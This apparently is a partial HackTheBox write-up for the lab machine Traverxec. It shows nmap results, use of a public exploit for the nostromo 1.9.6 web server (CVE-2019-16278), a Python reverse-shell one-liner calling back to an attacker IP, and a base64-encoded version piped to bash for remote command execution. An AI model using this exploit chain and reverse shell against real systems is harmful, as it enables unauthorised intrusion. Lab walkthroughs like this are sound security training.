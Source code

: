 # Traverxec HackTheBox

![image](https://user-images.githubusercontent.com/5285547/124390855-611f6100-dce5-11eb-9e04-504177808d60.png)


## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

What's nostromo 1.9.6? I've not seen that before. 
Let's check it out. 

## www-data 

Finding an exploit online and checking it out, seems a socket is used to connect back to the server, nice!

Exploit: https://www.exploit-db.com/exploits/47837

```
 python2.7 cve2019_16278.py 10.10.10.165 80 id
```

![image](https://user-images.githubusercontent.com/5285547/124392012-510a8000-dceb-11eb-98b7-078c1895ce3c.png)

Nice, time for a reverse shell. 

- Payload

python3
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.15",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
```
Then base64 encoded,
then urlencoded (all charaters)

```

- Final payload
```
python2.7 cve2019_16278.py 10.10.10.165 80 "echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjE1Iiw5OTk5KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw%3D%3D|base64 -d|bash"
```




